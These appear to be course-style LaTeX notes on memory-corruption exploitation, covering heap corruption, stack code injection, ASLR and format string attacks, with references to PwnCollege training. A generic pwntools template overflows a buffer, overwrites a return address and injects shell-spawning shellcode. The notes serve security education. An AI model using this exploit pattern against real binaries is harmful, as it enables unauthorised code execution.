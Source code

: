 \subsection{Heap Corruption}
The typical objective is mangling data structures. E.g., changing point of a linked list. 

\subsection{Code Injection}
Idea: inject code using a buffer overflow and jumping to that portion of the stack. \\
Requirements: ASLR + NX (stack areas are mutually executable or writable) deactivated.

No stack canary means build with \texttt{-fno-stack-protector}.

See: PwnCollege "Shellcode Injection" and "Intermediate memory errors" training modules

Typically shellcraft is used to generate the shellcode.

In order to locate the offset between the beginning of user input (input buffer) and return address we can use de Brujin sequences.
\texttt{cyclic <num>} provides the means to inject the sequence, while \texttt{cyclic -l 0x<seq-hex>} locates the distance from input buffer start, thanks to low repeatability of the sequence.

Pwntools can be used to perform binary attacks:
\begin{verbatim}
from pwn import *

exec = ELF("<binary-name>")

payload = "a"*32  # offset
payload += p32(<target-addr>)
payload += asm(shellcraft.sh())

proc = process("./<bin-name>")
proc.sendlineafter(b'<str>', payload)

print(proc.clean()) # Clean returns the output of the process accumulated up to this point
proc.interactive()  # Give control to the user (since we opened a shell)
\end{verbatim}

\subsection{ASLR Bypass}
ASLR randomizes addresses with a granularity of 4k (virtual memory size).

\section{Format String Attacks}
First documented in the second half of 2000. See: Team Teso (2001), Format String Exploitation Tutorial by Saif El-Sherei.

